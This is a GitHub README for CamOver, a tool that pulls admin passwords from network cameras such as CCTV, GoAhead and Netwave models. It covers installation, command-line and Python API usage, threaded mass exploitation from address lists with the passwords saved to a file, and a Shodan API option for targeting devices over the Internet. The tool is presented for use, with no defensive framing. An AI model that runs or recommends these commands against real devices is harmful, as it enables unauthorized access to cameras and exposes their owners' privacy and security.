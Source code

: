 # CamOver

 CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

## Features

* Exploits vulnerabilities in most popular camera models such as `CCTV`, `GoAhead` and `Netwave`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamOver
```

## Basic usage

To use CamOver just type `camover` in your terminal.

```
usage: camover [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--api API]

CamOver is a camera exploitation tool that allows to disclosure network camera
admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --api API             Shodan API key for exploiting devices over Internet.
```

### Examples

Let's hack my camera just for fun.

```shell
camover --address 192.168.99.100
```

**output:**

```shell
[*] (192.168.99.100) - connecting to device...
[*] (192.168.99.100) - accessing device rom...
[*] (192.168.99.100) - extracting admin password...
[i] (192.168.99.100) - password: mamahacker123
```

Let's try to use opened database of hosts with `--threads` for fast exploitation.

```shell
camover --threads --input cameras.txt --output passwords.txt
```

It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

## CamOver API

CamOver also has their own Python API that can be invoked by importing CamOver to your code:

```python
from camover import CamOver
```

### Basic functions

There are all CamOver basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by network address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from camover import CamOver

camover = CamOver()

camera = camover.connect('192.168.99.100')
print(camover.exploit(camera))
```

**output:**

```shell
'mamahacker123'
```
